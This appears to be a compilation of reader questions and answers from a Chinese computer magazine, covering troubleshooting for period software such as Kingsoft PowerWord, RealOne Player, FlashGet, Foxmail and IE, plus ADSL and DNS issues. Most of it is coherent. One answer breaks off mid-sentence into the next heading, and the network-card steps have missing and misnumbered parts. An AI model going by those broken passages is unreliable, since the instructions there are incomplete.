答：这主要是因为你没有注册软件的缘故。这款软件是共享软件，在正式注册之前你使用的是试用版。试用版有如下限制：只能解开3MB以下的文件包，只能转换100MB以下的映像文件，只能保存100MB以下的映像文件，只能将100MB以下的文件保存为新文件。虽然网上有该软件的注册文件或破解补丁，但对于保存非常重要的数据的正式应用，建议还是使用通过正常渠道注册的软件为妥。因为使用破解补丁不当，使用中造成ISO文件损坏的例子也不是没有的。
与此功能类似的完全免费的软件小编们还没有见到。如果读者朋友见到别忘了向大家推荐哦。

## 系统升级后运行词霸2005 出现桌面闪烁

南京读者刘江问：我的Windows XP在打了SP2升级包后，运行金山词霸2005时出现桌面闪烁的现象，请问该如何解决？

答：就此问题，我们咨询了金山公司。金山公司在接到一些用户反映后，已经解决了这个问题。现在只要用户通过http://support.kingsoft.com/c_1/XdictGrb.dll下载XdictGrb.dll文件，用下载的这个文件替换金山词霸2005安装目录下的同名文件，问题即得到解决。

## 无法安装 WPS Office 2003 的故障

江西读者范红英问：我在学校的计算机房安装WPS Office 2003时，有几台电脑系统提示已安装，需先卸载再安装，另有几台安装时突然死机。这是什么原因引起的？该如何解决？

答：出现WPS Office 2003已安装先卸载的提示或者突然宕机可能有如下原因：
(1)系统中安装了WPS Office的其他版本。
(2)系统中安装了WPS Office的测试版或正式版本后未正常卸载。
(3)系统中可能正在运行防毒软件、防死机软件、ICQ等软件。
具体解决方法如下：
首先将正在运行的应用程序关闭，并确认系统中不存在WPS Office 2003的文件夹(提示：如果有个人工作文件目录保存在WPS Office 2003文件夹中，要先将文件进行备份，以免造成损失)，然后修改注册表内容，依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\KINGSOFT\WPS Office 2003]分支，将WPS Office 2003文件夹删除。
如果仍有上述情况发生，请进入系统盘的Program Files文件夹，并通过“文件夹选项”设置显示所有隐含文件和受保护系统文件，这时你会在Program Files中看到InstallShield Installation Information文件夹，打开并将其中的ini文件及含有WPS Office 2003字样的文件夹删除即可。
完成上述操作后，就可以重新安装WPS Office 2003了。

## 更改整个演示文稿的项目编号样式

北京读者安超问：我通过套用模板方式生成了一套PowerPoint幻灯片，但无论如何都不知道该如何修改整个演示文档的项目编号。请问，通过模板生成的幻灯片的项目标题不能被修改吗？

答：如果要更改演示文稿中所有幻灯片项目符号或编号的颜色、大小、外观或缩进级别，不能用一般的选择修改法，需要用修改幻灯片母版的办法来解决。修改幻灯片母版或标题母版时，首先在“视图”菜单上，指向“母版”，再单击“幻灯片母版”或“标题母版”，接着做所需修改，例如改变字体、改变文本的大小或颜色、改变项目符号字符，或者添加图片或文本框。要确保没有在占位符文本中删除或添加字符。修改完毕，单击“母版”工具栏上的“关闭”。

## 在局域网硬盘中直接录制 CD 音乐

内蒙古读者郭东平问：我的硬盘没有多少剩余空间了，最近从朋友那里借来不少CD音乐光盘，请问能否将这些CD直接录制成MP3存储到局域网的共享硬盘中？该如何操作？

答：可以用RealOne Player的录制CD功能来实现。首先在RealOne Player主界面窗口中选择菜单命令“工具→参数设置”，然后选择设置窗口中的“普通”类别，从窗口右侧通过“浏览”按钮选择“录制音乐文件”的位置为网上邻居某台电脑上具有访问权限和写入权限的文件夹，确定之后，就可以用“保存曲目”的方式将CD曲目保存到共享硬盘中了。

## 正常卸载词霸后嵌入 Office 中的按钮为何还在

广州读者兰玉芬问：我通过正常渠道卸载了电脑中安装的金山词霸，但后来发现，嵌在Office工具栏上的按钮没有随之卸载。请问，这是什么原因造成的？如何才能去掉工具栏上的词霸图标？

答：这应该是由于卸载时词霸的Office插件还在使用的原因造成的。
解决方法：进入Word或Excel，点击“工具→自定义”，然后把词霸的按钮拖动到“自定# 不再让RealOne Player主页烦你

山西读者付巨发问：每次打开RealOne Player总是要跳出个主页来烦人，而且速度极慢，其实我每次都是为了听歌，而不是上网，请问该如何去掉这个烦人的主页？

答：请按如下方法设置：先从媒体播放器“文件”菜单下选择“离线工作”，再通过“工具→参数设置”选择“普通”类别，然后设置“在启动显示”项目为“仅限于播放器（无媒体浏览器）”，确定即可。

# 修复意外情况造成的EXE文件错误关联

江西读者梁建超问：我的电脑中的EXE文件忽然都不能运行了。我的电脑中原来装有金山毒霸6，因为嫌运行慢，我在运行那张光盘时关掉了监控功能，现在该杀毒软件的主程序也不能运行了。该怎么办？

答：第一种方法是，修改regedit.exe为regedit.com，这样就能打开注册表编辑器了，找到[HKEY_CLASSES_ROOT\exefile\shell\open\command]，将default的键值修改为“"%1" %*”。

还有一种方法是重启电脑，在出现“正在启动Windows…”时按F8键，选择“带命令行提示的安全模式”选项，接着输入“assoc .exe=exefile（assoc与.exe之间有一空格）”并回车，屏幕显示“.exe=exefile”。关闭命令提示符窗口，按Ctrl + Alt + Del组合键调出“Windows安全”窗口，按“关机”按钮后选择“重新启动”选项即可。

另外，金山毒霸6每次启动时会自动检查并修改注册表中EXE的默认文件关联。你可以进入金山毒霸6的安装目录，将金山毒霸6的主程序文件Kav32.exe的扩展名由EXE修改为COM并运行，在它完成修复后，将金山毒霸6主程序文件名由Kav32.com再修改回Kav32.exe即可。

# WPS 2005关联Microsoft Office文件的问题

江苏读者范文艳问：在安装WPS 2005时没有选择关联Microsoft Office文件，现在想建立关联了，该怎么办？

答：在安装WPS 2005政府专用版时，会有提示关联Microsoft Office文件的选项，如果这时没有进行关联，可以在Microsoft Office文件上单击鼠标右键，选“打开方式”，从列表中选择金山文字等程序，并确保选中“始终使用该程序打开文件”。如果不成功，则在文件夹选项框的文件类型列表中，定义Microsoft Office文件用金山文字等程序打开，注意定义操作时，应填open，这样，即可用金山文字等程序打开Microsoft Office文件了。

# 无法为ACDSee 7.0幻灯片添加背景音乐

天津读者廖成龙问：为何在我刚刚安装的ACDSee 7.0的幻灯片演示设置界面中，其“Background audio”后边的浏览按钮是灰色的，无法进行背景音乐的添加操作？该如何添加背景音乐？

答：造成按钮是灰色的原因是ACDSee这时并没有用来制作背景音乐所需的音频解码信息。如果想添加音频解码信息，需要增加插件：点击主界面右上角的“My ACD”按钮，在打开的“My ACD”控制面板会看到“ACD Media Support Package”，点击“Install”按钮并且根据弹出来的提示框进行安装，这样下次再次使用其幻灯片制作功能的时候你会发现灰色按钮已经变亮了。

# RealOne Player在线播放不畅

问：我的电脑中安装了RealOne Player媒体播放器，上网浏览时如果点击了某个媒体文件的链接，就会自动启动RealOne Player播放，但连接很困难，或者即使连上了，播放过程也是很不爽快。请问，遇到这种情况，能不能不让它自动启动RealOne Player，而是先下载到本地，然后再播放？

答：在RealOne Player播放主界面窗口中选择“工具→参数设置”，然后选择设置窗口中的“连接→播放设置”，将窗口右侧的“只要可能，激活直接播放而不是下载”复选框和“在媒体浏览器内部激活普通媒体播放”复选框中的对钩去掉即可。

# 金山词霸2005英汉图解词典无法显示图片

广东读者潘利民问：我刚安装了金山词霸2005，使用中发现其中的英汉图解词典无法显示图片，请问该如何解决？

答：在金山词霸2005安装目录下新建一个空目录，命名为Temp即可解决问题。

# 解决RealOne Player抓取CD速度慢的问题

甘肃读者赵佳瑶问：我有一批CD光盘需要用RealOne Player转换到电脑硬盘上存储播放，但试了几张光盘觉得速度很慢。请问如何才能加快复制进度？

答：可以通过设置快速编码来加快CD的复制进程。方法是：在RealOne Player播放窗口主界面菜单中选择“工具→参数设置”，然后在设置窗口中选择“CD →高级CD”，在激活的“高级CD”窗口中部选择“高级”按钮，接下来在激活的“高级保存CD选项”窗口的下部，将性能框中的CPU占用滑块调节到“最高”的位置并确定即可。这样设置CPU的占用将增大，所以尽量不要开启别的程序，可以在电脑闲置的时候完成这项工作。

# 实现编辑器中下载地址一点即下

山东读者宋红问：因为现在《电脑爱好者》提供的下载资讯特别多，所以网址也格外多，在每一期杂志到来时，我都要认真地把每个网址打到记事本中。我家没有上网，所以每次都要拿着软盘把地址文件拷贝到别人家去下载。我不停地从记事本中复制网址，然后粘贴到浏览器的地址栏中下载。请问，能不能在记事本中一点就能连接到网页上下下载？

答：你可以用一款小工具软件——EmEditor来代替记事本作文字编辑工具，这样输入的网址直接在其编辑环境下点击就可以连接到网页上下下载了。该软件官方网址是http://www.emeditor.com。

另外，还有一个效率更高的下载办法，就是用FlashGet（网际快车）的导入列表下载功能。把你编辑好的下载地址文件导入到FlashGet中，就可以一次下载许多文件了。

# 智能ABC输入法中v字母功能失效

北京读者张金奎问：我使用的输入法是智能ABC输入法，为了提高录入速度，我选择双打输入。根据一些教材中的说法，使用“v + 区号”的方式能够输入汉字库中1～9区的字符，使用“v + ASCII码字符串”能够输入西文符号，但在我的电脑上这个功能无法实现。请问这是怎么回事？

答：你所说的情况适合于智能ABC全拼或简拼输入的情况，在双打输入状态下无效。由于字母“v”在双打方式中替代声母“sh”，所以不能使用“v + 区号”的方式来输入1～9区的字符，也不能使用“v + ASCII码字符串”输入西文。如果需要输入这些字符，可以从软键盘中切换分组进行选择输入。方法是，在智能ABC输入法状态条上右击小键盘图标，选择相应的字符分类菜单命令，然后用鼠标左键单击小键盘图标，在弹出的键盘图上选择想要的字符即可。

# 只有韵母的汉字的双打输入问题

河南读者杨义典问：我使用的输入法是智能ABC输入法的双打输入方式，用这种输入方式确实可以大大减少击键次数，从而提高录入速度。但这种输入法规定每个汉字必须输入两个字母代码才能完成输入，而有的汉字（如“啊”、“哦”等）只有一个韵母，在这种情况下如何实现双打输入？

答：有些汉字只有韵母，智能ABC双打输入方式中称这种汉字的音节为“零声母”音节，并规定了这种音节的输入方法为：奇次键入“o”字母（o被定义为零声母），偶次为韵母。虽然击键为两次，但是在屏幕上显示的仍然是一个汉字规范的拼音。例如，要输入汉字“啊”，则只要输入代码“oa”即可。

# 无法播放MIDI格式音乐的解决办法

江苏读者黄苏问：最近我从网上下载了一些MIDI格式的音乐文件，解压缩后使用WMP播放出现问题，虽然播放时画面上也显示正在播放，音箱也是开着的，为什么还是没声音？

答：如果播放其他声音文件正常，那你就需要检查一下关于MIDI这部分的设置。首先确定是不是被设成静音了，双击屏幕右下角的喇叭图标，打开之后，看看是不是MIDI的“静音”功能被勾起来了，如果是则把它取消；如果没有就检查一下“设备管理”中声卡驱动程序是否正确安装；如果驱动正常，再检查是不是没有启动MIDI。

在Windows 2000中打开“控制面板”的“声音与多媒体”，到“音频”页，选择“MIDI音乐播放”（声音播放），按“属性”，检查有没有设为“使用这个设备控制功能”，必须选取这项MIDI才会有声音。

如果经过以上设置还是没听到MIDI的声音，到“控制面板→系统→设备管理”，删除声卡控制部分，重新启动计算机，重新安装一次声卡驱动程序就可以了。

# 调整参数让网络电视播放更流畅

问：我用RealOne Player播放网络电视时总有断断续续现象，如何才能让播放更流畅一些？

答：如果是网络原因，可以通过调整缓冲时间和网络超时参数来改进播放性能。在RealOne Player主界面窗口中选择菜单命令“工具→参数设置”，然后选择设置窗口中的“连接→播放设置”，将窗口右侧的“缓冲播放”时间设置为60秒以上，将“网络超时”参数分别设置为40秒和120秒。如果考虑到可能是硬件的原因，可在类别窗口中选择“硬件”项目进行调整，设置相应的参数进行尝试。

# 收到的邮件出现乱码该怎么办

问：我使用Outlook Express管理邮件，有时在收到邮件时发现其中的内容是乱码，没有办法读就直接删除了。请问收到的邮件是乱码应该如何处理？（北京 胡月明）

答：一般来说，乱码邮件的原因有下面三种：

- (1)由于发件人所在的国家或地区的编码和中国大陆不一样，比如我国台湾或香港地区一般的E-mail编码是BIG5码，如果在免费邮箱直接查看可能就会显示为乱码。
- (2)发件人使用的邮件软件工具和你使用的邮件软件工具不一致造成的。
- (3)由于发件人邮件服务器邮件传输机制和免费邮箱邮件传输机制不一样造成的。

一般说来对于绝大多数乱码的邮件解决方法可以采用下面的方法：

首先用Outlook Express将乱码的邮件收取下来，然后打开这封邮件，查一下View(查看)→Encoding(编码)，然后调整其下的编码设置试试看，比如可以选择Chinese Simple (简体中文)、Chinese Traditional(繁体中文)、中文HZ或Unicode试试看。一般来说，绝大多数乱码的邮件都可以修正过来。如果觉得这样很麻烦，可以将GB2312设置为默认的字体，方法如下(以Outlook Express 5为例)：通过“工具→选项→阅读→字体”，在“编码”处选好GB2312，然后选“设为默认值”。

# FlashGet下载级别迅速升降

问：我正在用FlashGet下载数百个文件，有一个文件位于下载列表的最后，我想在不停止其他下载内容的情况下，把这个文件立即提前下载。请问，有什么办法？（婷婷）

答：只要选择这个文件，然后在按下Ctrl键不放的情况下，用鼠标点击位于工具栏上的“上移”按钮（向上箭头）即可。同理，如果要实现迅速下移，只需换成“下移”按钮即可。如果不用Ctrl键配合，只用“上移”按钮一步上移，也能达到目的，但显然太慢，是笨办法。另外，通过右键菜单命令的方式，也能实现同样的快速升级功能。

# 转发器参数栏为何不可选

问：为什么我在DNS服务器中配置转发器的参数栏是不可选择的灰色？（小佳）

答：你所操作的这台服务器应该是根域控制器，因此无法配置该参数，你可以进行如下操作解决问题：

1.  在正向搜索区域中删除“.”区域。
2.  关闭DNS控制台。
3.  重新打开DNS控制台。

这样你就可以配置转发器了。

# 别被下载完成的假象所迷惑

问：我在用FlashGet下载一个软件时，软件说明中标明软件容量是5MB多，而我下载到的只有几百KB大小的文件，而且FlashGet报告已经下载完毕。请问，这是怎么回事？该如何解决这个问题？（西安 何如）

答：可能的原因有如下两种情况。第一种是网页文件链接的错误或文字说明的错误，造成说明文字与软件实际大小不一致，这时你可以重新下载这个文件，如果条件允许的话你可以用别的软件下载（如网络蚂蚁等），如果下载下来的软件仍然只有几百KB，那就可以断定是链接或文字说明错误了。第二种情况可能是网络不稳定造成的文件下载错误，这时文件并没有真正下完，但FlashGet会报告说文件已经下载完成。解决办法是，到FlashGet窗口中选择左侧的“已下载”项目，然后从右侧已下载文件列表窗口中找到下载不完全的那个文件，在该文件上单击鼠标右键，然后选择右键菜单中的“检查更新”命令，这时该文件就会重新回到“正在下载”文件列表中，并再次到原来的地址检查下载。

# FlashGet下载续传故障解决

问：我用成批添加下载列表的方式在FlashGet中添加了许多下载任务，下载文件直接存放在局域网上的另一台电脑的硬盘中。由于下载过程中这台用来存储下载文件的电脑突然重启，造成正在下载的列表不能再续传，而列表中其他尚未下载的文件均能正常下载。我曾试图删除列表中的这些文件，然后在“已删除”分支下选择已经删除文件的列表进行“重新下载”，但仍然发生错误。请问，该如何解决？（西安 张恒）

答：解决方法是，在FlashGet“正在下载”窗格中用Ctrl键或Shift键配合鼠标点击或拖动的方法选择所有发生错误的文件，然后从“文件”菜单中选择“导出列表”，将这些不能下载的文件地址保存在一个列表文件中，接下来删除“正在下载”列表和“已删除”列表中的这些错误文件记录，最后再从“文件”菜单中选择“导入列表”，导入刚才保存的列表，执行下载命令，就可以正常下载了。

# 怎样限制只从某网站搜索信息

问：有时，我只想用Google搜索引擎从某个网站上搜索一类内容，但输入内容后搜到的往往是许多网站上的信息。请问，我该如何才能把搜索结果限制在某特定网站的范围内？（湖南 邹燕）

答：搜索时使用site:这个关键词就可以了。site:表示搜索结果局限于某个具体网站或者网站频道，如sina.com.cn、edu.sina.com.cn，也可以是某个域名，如com.cn、com等。如果是要排除某网站或者域名范围内的页面，只需用“- 网站/域名”即可。注意：site后的冒号为英文半角字符，而且冒号后不能有空格，否则，site:将被作为一个搜索的关键字。此外，网站域名不能有http以及www前缀，也不能有任何/的目录后缀；网站频道则只局限于“频道名.域名”方式，而不能是“域名/频道名”方式。诸如“金庸 site:edu.sina.com.cn/1/”的语法是错误的。

任务示例：搜索新浪文教频道中关于“鲁迅”的信息

搜索命令：鲁迅 site:edu.sina.com.cn

# 看看有多少人链接了你的主页

问：我做了一个个人主页，上传已经有一段时间了，不少朋友为我的网站作了链接，我想知道有多少人为我的网页作了链接。请问，如何才能得知？（吴历）

答：在Google搜索页面中使用link:语法就能让你迅速达到这个目的。请看下面的示例：

任务示例：搜索所有含指向http://www.newhua.com链接的网页。

搜索命令：link:http://www.newhua.com

# 如何搜索下载特定的某类文档

问：我要从Google搜索引擎中搜索所有包含“电脑”关键字的PDF文档，请问该怎么做？（广西 刘海正）

答：查询某一类文件（往往带有同一扩展名）可以用filetype:这个关键词，其功能已经非常强大，可以让你搜到许多意想不到的东西。请按照下面的示例套用即可。

任务示例：搜索关于“电脑”的PDF文档

搜索命令：电脑 filetype:PDF

# 超级搜霸没有阻止的恶意网站

问：为什么我在使用了超级搜霸的修复功能后，浏览器的主页还是显示恶意网站的网址？（甘肃 李冰）

答：如果你碰到了用超级搜霸修复功能仍旧无法修复的顽固问题，那么请先升级你的杀毒软件并进行扫描杀毒。如果还是无法修复，请打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]，将其下的registry.exe子键删除，再删除自运行程序C:\Program Files\registry.exe，最后从IE浏览器的菜单栏的“工具→Internet选项”中重新设置浏览器主页。

# 安装百度超级搜霸时出错

问：我将百度超级搜霸安装文件下载到硬盘中，在执行安装程序时出现错误提示，总是不能完成安装过程。请问这是为什么？如何解决？（山西 梁海峰）

答：如果将百度超级搜霸安装文件下载到硬盘中，在执行安装程序时，出现类似“传递给系统调用的数据区域太小”或“不是有效的Win32应用程序”的错误提示，可能的原因是百度超级搜霸与其他插件程序（比如3721的网络实名和上网助手）冲突。这时可以删除其他插件程序后再安装百度超级搜霸。如果在执行安装程序时，出现“安装文件已经损坏，请重新下载安装程序”或者“The setup files are corrupted. Please obtain a new copy of the program.”之类的错误提示，可能的原因是你在下载安装程序的过程中出现网络不稳定等问题导致下载不完全，可以先清除机器中的Cache文件（IE浏览器“工具栏→Internet选项→常规→删除Cookies”、删除文件），再重新下载超级搜霸的安装程序，再次安装即可。

# 同一邮件管理器中每个账户分设密码

问：我们全家三口人共用一台电脑，并用同一个Foxmail管理自己的邮件账户。请问，能不能给自己的邮箱分别加上不同的密码以便个人隐私保密？（郝鹏）

答：只要在邮件管理窗口左侧选择你的邮箱，单击鼠标右键，在弹出的菜单中选择“访问口令”，然后设置两次口令就可以了。

# 超级搜霸偷偷钻进我的电脑

问：为什么我在浏览某些站点的时候总是会自动下载并安装百度超级搜霸，安装前没有任何提示，最后只是弹出一个“安装成功”的窗口？

答：IE浏览器内置了一个受信任的公司列表，列表中公司发行的插件可以不经过用户的同意直接安装在电脑中。你可能在第一次安装百度软件的时候，选择了“总是信任baidu.com”，所以导致了自动安装。可以用编辑受信任列表的办法来删除不希望自动安装的软件所属的公司。查看受信任公司列表，并编辑该列表，方法如下：

1.  在IE浏览器“工具”菜单中点击“Internet选项”。
2.  在弹出的配置框中选中“内容”页，然后单击“证书”栏中的“发行商”按钮。
3.  选中“受信任的发行人”中要删除的列表项，然后单击“删除”按钮即可。

# 解开上网速度概念的疑团

问：我用的是普通电话拨号上网，听说宽带上网速度很快，是不是上网速度主要与带宽有关？除此之外上网速度还和哪些因素相关？

答：影响上网速度的因素有如下几种：

1.  上网方式。要看你用的是Modem、ISDN，还是宽带，这是决定上网速度的最重要的因素。
2.  上网参数配置。Windows预设的上网参数并不是最优化的，有些甚至是不恰当的，这些参数设置不当会导致上网速度达不到预期值，甚至相差很远。如果是这种情况，我们可以借助一些优化软件进行优化，比如使用百度超级搜霸的“网络参数优化”功能。
3.  要访问网站的带宽情况。即便是你使用宽带上⽹，如果要访问的网站本身带宽很窄，或者正处于拥塞（正被过多的同时访问）状态中，你访问此网站的速度仍然会很慢。

# 长网页中字串查询快速定位法

问：在一个很长的网页中，我通过Ctrl+F组合键寻找某个字符串，而且肯定该网页中有这个字符串，但查找动作完成后，我不知道我寻找的字符串在哪儿。请问，如何才能快速定位？

答：如果字符串不在当前的显示范围，IE会自动滚动滚动条，利用这个原理，你可以把IE的窗口拉得高度很低，让每页只显示有限的几行这样，你就就会很容易地发现你要找的字符串了。

# PCI网卡信号不稳定故障解决

问：我的电脑使用的是一块PCI总线的10/100M自适应网卡，型号是3COM905B，最近总是出现信号时断时续的问题，无法正常工作，检查网卡上的指示灯发现指示灯也是时亮时灭，没有什么规律可循，而与该网卡连接的HUB对应指示灯也是这种情况，我更换过Windows 98、Windows NT和Windows 2000，但都是出现同样的问题。请问这种故障该如何排除？

答：你可以从以下方面进行故障排查：

1.  首先检查HUB的连接端口是否出现故障，可以将你的网卡信号线连接到其他端口上试试。
2.  然后检查网卡参数是否设置不正确，你应该查看一下网卡上的中断号和I/O地址是否与操作系统的设置相同，即可以通过随网卡附带的测试程序盘来查看网卡的相关设置。

+   1. 置参数，然后到操作系统中进行设置。
    2. (3)主板上的PCI插槽损坏也会造成这个问题。打开机箱，将网卡插到其他PCI槽上试试。
    3. (4)开机后按Del键进入BIOS设置，检查一下PNP/PCI CONFIGURATION一项下面网卡所用的中断地址状态，如果是Legacy ISA，则应该将其更改为PCI/ISA PnP，然后保存退出即可。
    4. (5)更换网卡。

## 把“自动完成”功能专门搞丢

问: IE的“自动完成”功能有时很方便，但我常常用公用的电脑上网，并不希望这个“自动完成”功能记忆我输入的内容。请问，我该怎么做才能让自动完成功能失效？
答: “自动完成”功能能保存以前建立的用于Web地址、表单和密码的项目。如果在这些字段中键入信息时，“自动完成”将建议可能的匹配。匹配可以包含诸如在地址栏输入的文件夹和程序名称、搜索查询或在网页其他字段中键入的信息等等。当我们不希望这些便捷功能出现时，我们可以配置“自动完成”功能，仅保存所需要的提示信息项目。比如可以选择是否将“自动完成”功能用于Web地址、表单和密码，或是不使用“自动完成”。具体方法如下:
- (1)在Internet Explorer的“工具”菜单上，单击“Internet 选项”。
- (2)单击“内容”选项卡。
- (3)在“个人信息”中，单击“自动完成”。
- (4)选中要使用的“自动完成”选项的复选框。

## QQ一登录就发生错误

问: 我有一个QQ号总是登录不上去，最近甚至一登录此号码QQ就发生错误并退出。而在同一台机器上却可以登录其他QQ号码并且没有任何问题，请问这是怎么回事？如何解决？
答: 在QQ中，每一个号码登录后的资料存储位置都是独立的(即存放在QQ安装目录下以QQ号码命名的文件夹下)。有时因为程序错误或版本升级过程中出现了一些问题而导致部分本地QQ账号数据受到损坏。而在登录此QQ号码时，QQ会首先读取本地的该账号数据，如果数据格式异常则会发生登录失败或者QQ错误退出的情况。解决方法是: 在QQ安装目录下删除以该号码命名的文件夹，重新登录QQ。

## Foxmail无法创建新邮件，无法自动断线

问: 我以前是用Outlook Express来收发电子邮件的，最近改用Foxmail了，但在使用中却遇到了以下问题: 把Foxmail设置成默认邮件收发程序后，点击邮件地址只是打开Foxmail，不能打开写邮件界面。另外，在系统设置的网络选项卡里勾选了“收发邮件后自动断线”，但是收发邮件后Foxmail不会自动断线。请问这些问题怎么解决？
答: 卸载并重装Foxmail，再将其设置为默认邮件收发程序即可解决第一个问题。无法自动断线可能是由于你使用了多条网络线路，而在Foxmail的默认连接中设置了不正常的那条，可以在Foxmail中选择菜单“工具→系统设置”，在“连接”选项卡中将“拨号网络设置”中的“使用连接”设置为当前使用的网络连接。

## 将系统升级为Windows XP后访问共享速度变慢了

问: 我原先使用的是Windows 2000，最近升级到Windows XP后发现，在使用“网上邻居”浏览局域网共享时速度慢了好多。而局域网中其他使用Windows XP的机器都有这个问题，请教了高手说需要修改注册表。请问具体应该如何修改？
答: 在通常情况下，Windows XP在连接其他机器时会全面检查对方机器上所有预定任务，这个检查会让你等上30秒钟或更多时间。可以通过修改注册表来禁用这个过程: 打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\RemoteComputer\NameSpace]，在其下有个{D6277990-4C6A-11CF-8D87-00AA0060F5BF}，把它删掉后重启机器，就不再检查预定任务了，查看共享的速度会有明显提高。

## FirewallClient导致无法上网的疑惑

问: 我在单位使用笔记本通过Firewall Client + ISA Server的方式上网，回到家后却发现无法进行ADSL拨号了，使用电话线主叫拨号上网能够连接上网络，但却无法访问网页也无法使用其他需要网络连接的软件。
答: 这种情况应该是Firewall Client仍然开启造成的，可以通过右击屏幕右下角系统托盘中的Firewall Client图标，在弹出菜单中选择Disable来暂时禁用此功能。等在单位使用网络时，再重新Enable就可以了。

## 一招解决本地DNS缓存故障

问: 我所在的网络经常出现可以用IP访问却不能用域名访问的问题，除服务器上的设置问题，还有什么原因可能导致这种问题？
答: 我们在访问网站时如果采用域名方式，在进行访问前还需要将你输入的域名通过DNS服务器转换为IP地址，如果DNS服务器出现故障或无法连接DNS服务器，就无法获取网站的IP自然而然也就无法访问网站。为了提高网站访问速度，系统会自动将已经访问过并获取了IP地址的网站存入本地的DNS缓存里，一旦再对这个网站进行访问，则不再通过DNS服务器而直接从缓存中取出该网站的IP地址进行访问。但有时就是因为本地DNS缓存出现了问题，而导致了网站无法访问的故障。可以通过在命令行方式(运行CMD.EXE)下输入命令“ipconfig /flushdns”(不含引号)来重建本地DNS缓存，就能解决这个问题。

## CCProxy导致ADSL频繁断线

问: 为了节省费用，最近我和弟弟每人一台电脑通过CCProxy代理服务软件共享上网，可是不知怎么回事每隔几分钟左右就自动掉线了，我很郁闷，由于我对代理服务器不是很清楚，想询问一下，怎么解决？
答: 其实这是CCProxy6.2代理服务软件的“拨号空闲断开时间”默认为5分钟造成的。当本地网络或代理服务器与互联网之间超过5分钟没有数据交换流量，CCProxy就会自动断开与互联网的连接。解决方法是: 点击CCProxy工具栏中的“设置”按钮，再点击“高级”，在对话框中取消“拨号空闲断开时间”的勾选即可。

## 802.11b设备能升级到802.11g吗

问: 请问802.11b协议的无线网络设备能升级到支持802.11g吗？(北京 曲高兴)
答: 不能。目前这类产品不能通过升级来实现从当前协议改而支持另一个协议。因为每一个协议会使用差别很大的技术，不同设备的硬件芯片及其协议具有惟一性规定。

## 用内置拨号上网方式时常出现断线

问: 我使用华硕AAM6000EV A/J ADSL Modem内置拨号方式上网，使用中每隔5到10分钟总是出现掉线的现象，有时甚至无法连接到Internet，出现网络中断后Ping ADSL Modem网关时表现为大量丢失数据包或完全不通，而采用第三方拨号软件拨号上网时ADSL MODEM能正常运行。请问这是为什么？(海口 王兵)
答: 出现这个问题的原因应该是MODEM内嵌的软件系统存在安全性漏洞导致受到病毒类程序的攻击，从而无法正常上网，解决该故障的方法是:
- (1)修改MODEM端口值: 将对外开放的21、23、80等常用的端口改为61000~62000的某一个数值。
- (2)修改ADSL MODEM的拨号方式，由内置拨号模式(即路由方式)改为桥接方式，采用电脑上的第三方拨号软件进行拨号。
- (3)升级MODEM软件版本或使用以UNIX为操作系统的ADSL MODEM，这样处理会有较高的安全性。
- (4)启用ADSL MODEM设备自身所带的防火墙功能。

## ADSL拨号上网无法连接服务器故障

问: 最近组装了一台电脑，上网时出现问题，表现为拨号时提示窗口“无法打开6XX端口，与远程服务器无法建立连接”。我用的是ADSL虚拟拨号，查看ADSL和网卡指示灯皆为绿色。请问该如何解决？(山西 王丹青)
答: 出现这个问题的原因是网卡没有被系统正确识别，你可以打开机箱，然后拔下网卡并重新换个PCI槽插好，重新开机后系统会提示找到新硬件，此时安装好网卡驱动程序并进行拨号操作即可。

## 解决新邮件提示栏的问题

问: 在Foxmail 5.0中删除了一封垃圾邮件后，运行在电脑屏幕顶端的“新邮件提示栏”中却还提示着那封已经被删除的邮件，当我双击它时，Foxmail却又提示“找不到邮件”。请问这是为什么？(江西 思齐)
答: 因为在接收邮件时，Foxmail会将未阅读的新邮件信息保存在fmnmtk.dat文件中，当你在未阅读的情况下删除一封新邮件时，保存在fmnmtk.dat文件里的新邮件信息还在，并不会被删掉。这时你只要直接删除Foxmail目录下的fmnmtk.dat文件就可以了。下次重启Foxmail时，程序会自动重建新的fmnmtk.dat文件。

## 请来保卫IE的绿色使者

问: 我的IE多次被黑，总是让人头疼不已。用修改注册表的办法解决了一些问题，但总是“治标不治本”。请问，有没有“治标又治本”的办法呢？(广西 王金鑫)
答: 用一款叫做“恶性代码杀手终结者”的软件可以解决问题。有了它，你就可以在网上自由冲浪而不必提心吊胆，即使中招也只需轻点鼠标就能自动修复。这是一款绿色软件，可运行于Windows 9x/NT/2000/XP等环境下，使用上无需特别的安装和设置，下载后即可马上使用，不会产生系统垃圾，更不会增加系统负担。你可以通过它提供的“修复网页恶性代码”和“恢复IE设置”两个功能将被恶性代码篡改得“体无完肤”的IE浏览器彻底恢复“健康”。该软件下载地址:http://nj2.onlinedown.net/down/johnnyloveyou.exe

## ADSL上网时接听电话会断线

问: 为什么用ADSL上网时接听电话会断线？(河南 莫浩仁)
答: ADSL Modem背面有电源、网卡和电话线三个接口，其中网卡接口需要一根交叉网线连接ADSL Modem和计算机中的网卡，而电话线接口则是通过一根两芯电话线接驳到滤波器。滤波器有一个用于连接电话盒的接口，同时还有2个提供电话线连接口，这两个电话接口通常不能混用，也就是用于连接ADSL Modem与连接电话分机的接口不能混淆，否则将会出现ADSL Modem工作出错的情况。在ADSL正常使用的时候，只能通过滤波器引出的电话机拨打和接听电话，如果使用其他线路连接的电话则会导致ADSL断线。为了解决这个问题，我们可以购买一款子母机电话，将座机与滤波器相连，子机可以放置在它处使用。

## 设置Foxmail地址簿中的默认组

问: 由于我的邮件联系人很多，所以在Foxmail中使用了地址簿功能，并且新建了一个分类叫“我的联系人”，其中保存了所有我常用的联系人。但是每次写新邮件时，在收件人栏中输入联系人姓名时，Foxmail却总是提示找不到该联系人，请问这是怎么回事？(山西 王丹青)
答: 这是因为你在地址簿中设置了默认组，当在写邮件时输入联系人姓名，Foxmail会首先在默认组中查找，如果默认组中没有该联系人，就会提示找不到。解决方法是: 在地址簿中，选择“工具→设置默认组”，然后选择你常用的组作为默认组即可。

问: 但每次写邮件并单击写邮件窗口中的“收件人”图标插入好友的邮箱地址时，在弹出的“选择地址”窗口中，“默认”联系人组总是为首选的，每次都要再在分组中选择“我的联系人”项，这样操作起来很麻烦。请问，能不能将“我的联系人”设置为默认的分组呢？(湖南 叶小雷)
答: 目前的Foxmail版本还没有提供设置邮件联系人分组优先级的功能。不过，你可以通过下面的方法来避免每次插入邮件地址时选择联系人分组的烦恼:
